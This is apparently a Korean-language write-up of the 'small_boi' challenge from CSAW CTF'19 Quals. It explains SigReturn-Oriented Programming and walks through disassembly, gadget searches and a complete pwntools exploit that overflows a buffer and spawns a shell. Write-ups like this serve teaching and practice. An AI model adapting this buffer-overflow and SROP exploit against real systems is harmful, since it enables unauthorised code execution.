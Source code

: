 # [WriteUp]CSAW CTF'19 Quals - small_boi

:black_nib:chykor12(sjjo0225@gmail.com)

---

SigReturn-Oriented Programming(SROP)을 사용하는 문제이다.

---

```bash
chykor12@ubuntu:~/CSAW CTF$ file small_boi
small_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=070f96f86ab197c06c4a6896c26254cce3d57650, stripped
```

small_boi는 정적 링킹된 프로그램이다. `objdump`와 `strings`를 사용해서 프로그램을 보면, 막말로 있는 게 없다.

```bash
chykor12@ubuntu:~/CSAW CTF$ objdump -d small_boi

small_boi:     file format elf64-x86-64


Disassembly of section .text:

000000000040017c <.text>:
  40017c:	55                   	push   %rbp
  40017d:	48 89 e5             	mov    %rsp,%rbp
  400180:	b8 0f 00 00 00       	mov    $0xf,%eax
  400185:	0f 05                	syscall 
  400187:	90                   	nop
  400188:	5d                   	pop    %rbp
  400189:	c3                   	retq   
  40018a:	58                   	pop    %rax
  40018b:	c3                   	retq   
  40018c:	55                   	push   %rbp
  40018d:	48 89 e5             	mov    %rsp,%rbp
  400190:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  400194:	48 89 c6             	mov    %rax,%rsi
  400197:	48 31 c0             	xor    %rax,%rax
  40019a:	48 31 ff             	xor    %rdi,%rdi
  40019d:	48 c7 c2 00 02 00 00 	mov    $0x200,%rdx
  4001a4:	0f 05                	syscall 
  4001a6:	b8 00 00 00 00       	mov    $0x0,%eax
  4001ab:	5d                   	pop    %rbp
  4001ac:	c3                   	retq   
  4001ad:	55                   	push   %rbp
  4001ae:	48 89 e5             	mov    %rsp,%rbp
  4001b1:	b8 00 00 00 00       	mov    $0x0,%eax
  4001b6:	e8 d1 ff ff ff       	callq  0x40018c
  4001bb:	48 31 f8             	xor    %rdi,%rax
  4001be:	48 c7 c0 3c 00 00 00 	mov    $0x3c,%rax
  4001c5:	0f 05                	syscall 
  4001c7:	90                   	nop
  4001c8:	5d                   	pop    %rbp
  4001c9:	c3                   	retq
```

```bash
chykor12@ubuntu:~/CSAW CTF$ strings -t x small_boi
    17a vPUH
    1ca /bin/sh
   1010 GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
   103b .shstrtab
   1045 .note.gnu.build-id
   1058 .text
   105e .rodata
   1066 .eh_frame_hdr
   1074 .eh_frame
   107e .data
   1084 .comment
```

대신 `"/bin/sh"`가 바이너리에 있다. 프로그램을 실행시켜 보면 `read` 시스템 콜로 `0x200`만큼 입력을 받고, `exit` 시스템 콜로 종료된다. `read` 시스템 콜에서 BOF를 발생시킬 수 있고, `syscall` 가젯이 있는 것으로 보아 레지스터를 적절히 조작하고 `execve` 시스템 콜을 실행하면 쉘을 획득할 수 있을 것 같은데, 레지스터를 조작하기에는 가젯이 많이 부족할 것 같다.

---

## Concept of SigReturn-Oriented Programming(SROP, x64)

SROP는 레지스터의 값을 임의로 변경할 수 있는 `sigreturn` 시스템 콜을 이용한 익스플로잇 기법이다. `sigreturn` 시스템 함수는 Signal을 처리하는 프로세스가 Kernel Mode에서 User Mode로 돌아올 때 스택을 복원하기 위해 사용되는 함수이다.

```c
asmlinkage long sys_rt_sigreturn(void){
    struct pt_regs *regs = current_pt_regs();
    struct rt_sigframe __user *frame;
...
    if (restore_sigcontext(regs, &frame->uc.uc_mcontext, uc_flags))
        goto badframe;
...
}
```

`restore_sigcontext()` 함수는 `COPY_SEG()`, `COPY()` 함수 등을 이용하여 스택에 저장된 값을 각 레지스터에 복사한다. 즉, 값을 레지스터에 저장할 수 있는 가젯이 없어도 `sigreturn()` 함수를 이용해 각 레지스터에 원하는 값을 저장할 수 있다는 것이다.

---

`rax`를 `0xf`로 맞춰주고 `syscall`을 호출하면 `sigreturn()` 함수로 레지스터의 값을 조작할 수 있다. `rax`를 `execve()`의 시스템 콜 넘버인 `0x3b`로, `rdi`를 `"/bin/sh"`의 주소로, `rip`를 `syscall`의 주소로 맞춰 주면 바로 쉘을 획득할 수 있을 것이다.(sigreturn frame을 설정할 때 레지스터의 값을 특정하지 않으면 0으로 설정된다.)

```bash
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
small_boi : 0x4001ca --> 0x68732f6e69622f ('/bin/sh')
```

```bash
gdb-peda$ ropsearch "pop rax"
Searching for ROP gadget: 'pop rax' in: binary ranges
0x0040018a : (b'58c3')	pop rax; ret
```

```bash
gdb-peda$ ropsearch syscall
Searching for ROP gadget: 'syscall' in: binary ranges
0x00400185 : (b'0f05905dc3')	syscall; nop; pop rbp; ret
0x004001c5 : (b'0f05905dc3')	syscall; nop; pop rbp; ret
0x004001a4 : (b'0f05b8000000005dc3')	syscall; mov eax,0x0; pop rbp; ret
```

sigreturn frame은 다음과 같이 설정할 수 있다.

```python
syscall = 0x400185 # address of "syscall" gadget
binsh = 0x4001ca # address of "/bin/sh"

frame = SigreturnFrame(arch = 'amd64')
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = syscall
```

---

최종 익스플로잇은 다음과 같다.

```python
# exploit_small_boi.py

from pwn import *

addr_binsh = 0x4001ca # address of "/bin/sh"
pop_rax = 0x40018a # address of "pop rax; ret" gadget
syscall = 0x400185 # address of "syscall" gadget
binsh = 0x4001ca # address of "/bin/sh"

payload = "A" * 0x28
payload += p64(pop_rax)
payload += p64(0xf) # Sigreturn syscall number
payload += p64(syscall)

frame = SigreturnFrame(arch = 'amd64')
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = syscall

payload += str(frame)

r = process("./small_boi")
# r = remote("pwn.chal.csaw.io", 1002)

r.send(payload)

r.interactive()

```

```bash
chykor12@ubuntu:~/CSAW CTF$ python exploit_small_boi.py
[+] Starting local process './small_boi': pid 2614
[*] Switching to interactive mode
$ whoami
chykor12

```

